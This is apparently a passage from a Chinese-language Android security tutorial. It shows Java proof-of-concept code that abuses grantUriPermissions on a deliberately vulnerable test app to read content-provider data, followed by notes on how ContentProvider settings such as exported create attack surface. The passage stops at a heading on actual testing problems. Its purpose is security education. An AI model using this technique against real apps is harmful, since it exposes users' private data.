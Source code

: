 ```
Intent intent = new Intent();
intent.setData(Uri.parse("content://" + "com.example.student"+"/input"));
intent.setClassName("com.example.vulnerableapplication", "com.example.vulnerableapplication.provider.grantUriPermissionsActivity");
intent.setFlags(Intent.FLAG_GRANT_READ_URI_PERMISSION);
startActivityForResult(intent,0);
 
 
protected void onActivityResult(int requestCode, int resultCode, Intent data) {
    Log.e("rzx","onActivityResult");
    super.onActivityResult(requestCode, resultCode, data);
 
    try {
        String str = "content://" + "com.example.student"+"/input";
        InputStream is = getContentResolver().openInputStream(Uri.parse(str));
        byte[] buffer = new byte[1024];
        int byteCount;
        while ((byteCount = is.read(buffer)) != -1) {
            Log.e("Rzx",new String(buffer));
        }
        is.close();
 
    } catch (Exception e) {
        throw new RuntimeException(e);
    }
}

```

### ContentProvider 组件安全

*   android:exported 属性
    
    从 API Level17 及以后，Content Provider 默认是私有的，除非显式指定，android:exported="true"。
    
    provider 设置为 false 时，只有同一个应用程序的组件或带有相同用户 ID 的应用程序才能启动或绑定该服务。如果为 true, 外部应用，就可以调用，访问使用内部提供的功能，根据实现的功能就行测试攻击，而不只是 sqlite 和文件访问这些功能而已。当然，可能效果没有那么好。（配合使用更佳，后面会介绍例子）
    
*   跨进程调用 provider，如果进程死了，会唤醒目标进程，并且，在这个调用进程主动被杀以后，目标进程没有被杀。
    
    作为第一手攻击点，启动进程，是可以的。不过，估计和广播哪个一样，没有后台弹出界面权限。助攻也可以
    
*   provider 本进程启动的时候，会在 Application oncreate 方法调用前初始化完成，调用完 oncreate
    
    这里，加固的时候，如果在 oncrete 函数里调用 provider, 要在之前完成 provider 手工安装（这里记不太清了，但是 provider 在加固的时候有坑）可以去分析他的启动时机。
    
*   provider 本身，没有权限控制，sql，文件读写功能，只提供的双端交互，后续以及产生的各种漏洞，都是开发人员在 provider 基础上进行功能扩展，代码检测不严格，出现的问题。
    

### 实际测试问题

如果你看到这里觉得前面写的没有问题的话，那么。。。。。。。。。。

 

好吧，先说一下，出现的问题吧
